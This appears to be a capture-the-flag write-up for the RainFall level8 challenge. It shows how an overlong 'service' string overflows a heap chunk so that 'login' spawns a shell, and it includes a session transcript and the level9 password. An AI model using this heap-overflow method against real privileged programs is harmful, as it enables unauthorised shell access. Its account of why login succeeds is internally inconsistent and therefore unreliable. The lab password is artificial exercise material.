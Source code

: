 # Level8 Walkthrough - Heap Overflow Exploit

## 🎯 Goal
Exploit a heap overflow vulnerability to gain a shell and read the password for **level9**.

---

## 🔍 Program Analysis

The program is an interactive shell that accepts four commands:

1. **auth [name]**  
   - Allocates 4 bytes on the heap  
   - Stores pointer at `0x8049aac`

2. **reset**  
   - Frees the auth allocation

3. **service [name]**  
   - Allocates 4 bytes on the heap  
   - Stores pointer at `0x8049ab0`  
   - Uses `strcpy()` (⚠ no bounds checking)

4. **login**  
   - If both `auth` and `service` exist → calls `system("/bin/sh")`

---

## ⚠️ Key Vulnerability

- The **`service`** command uses `strcpy()` without bounds checking.  
- Heap chunks are allocated **adjacent** to each other.  
- Overflowing the `service` chunk can corrupt the `auth` chunk.  

---

## 🚀 Exploit Strategy

### Step 1: Create Auth Structure
```bash
auth AAAA
```

- Creates a 4-byte **auth chunk** on the heap.  
- `auth` pointer now contains a valid address.  

---

### Step 2: Overflow Service Chunk
```bash
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

- Creates a **service chunk** adjacent to the auth chunk.  
- Long string **overflows** from service chunk into auth chunk.  
- Corrupts the `auth` structure in memory.  

---

### Step 3: Trigger Shell
```bash
login
```

- Program checks if `auth` pointer exists (it does, though corrupted).  
- Calls `system("/bin/sh")`.  
- We now have a shell.  

---

## 🔧 Technical Details

### Heap Layout

```
+-------------------+ 0x804a008  <- Auth chunk
| 0x41414141 (AAAA) |  <- Our auth data
+-------------------+ 0x804a00c
| Heap metadata     |  <- malloc headers
+-------------------+ 0x804a018  <- Service chunk
| AAAAAAAAAAAA...   |  <- Our long service string
| ...               |  <- Overflow continues into
| ...               |  <- adjacent memory
+-------------------+
```

### Why This Works
- **Heap Allocation**: `malloc(4)` creates adjacent 4-byte chunks.  
- **No Bounds Checking**: `strcpy()` copies unlimited data into service chunk.  
- **Heap Overflow**: Service data spills into the adjacent `auth` chunk.  
- **Memory Corruption**: `auth` structure is corrupted but pointer remains valid.  
- **Shell Access**: `login` command triggers `system("/bin/sh")`.  

---

## 🎯 Successful Exploit

```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth aaa
0x804a008, (nil) 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

---

## 💡 Key Insights
- **Order Matters**: Create `auth` first, then `service` with overflow.  
- **Overflow Length**: ~64+ characters needed to reach adjacent chunk.  
- **Heap Behavior**: Adjacent allocations → exploitable overflow.  
- **Minimal Validation**: Program only checks if `auth` pointer is non-null.  

---

## 🎉 Success

Password for **level9**:
```
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
